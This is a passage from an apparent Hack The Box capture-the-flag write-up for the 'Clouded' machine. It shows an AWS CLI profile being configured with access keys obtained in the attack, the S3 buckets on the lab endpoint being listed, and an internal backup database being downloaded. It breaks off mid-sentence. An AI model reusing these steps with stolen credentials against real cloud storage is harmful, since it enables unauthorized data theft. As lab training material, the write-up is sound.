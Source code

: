 ![keys](Clouded.assets/keys.png)



Now let's configure a new AWS profile in AWSCLI with the obtained creds.

```bash
$ aws configure --profile clouded

AWS Access Key ID [None]: AKIA5M34BDN8GCJGRFFB
AWS Secret Access Key [None]: eDjlDHTtnOELI/L3FRMENG/dFxLujMjUSTaCHILLGUY
Default region name [None]: us-east-1
Default output format [None]: json
```

List the S3 buckets.

```bash
$ aws --endpoint-url http://local.clouded.htb --profile clouded  s3 ls
2024-12-02 13:55:44 uploads
2024-12-02 13:55:47 clouded-internal
```

List the content of the `clouded-internal` S3 bucket.

```bash
$ aws --endpoint-url http://local.clouded.htb --profile clouded  s3 ls s3://clouded-internal
2024-12-02 13:55:51      12288 backup.db
```

Copy the `backup.db` file to the local machine.

```bash
$ aws --endpoint-url http://local.clouded.htb --profile clouded  s3 cp s3://clouded-internal/backup.db .

download: s3://clouded-internal/backup.db to ./backup.db
```

We can check that this is a SQLite3 Database file.

```bash
$ file backup.db

backup.db: SQLite 3.x database, last written using SQLite version 3046001, file counter 5, database pages 4, cookie 0x3, schema 4, UTF-8, version-valid-for
```

Use [this website](https://inloop.github.io/sqlite-viewer/) to view the contents of the `.sqlite` DB file - 
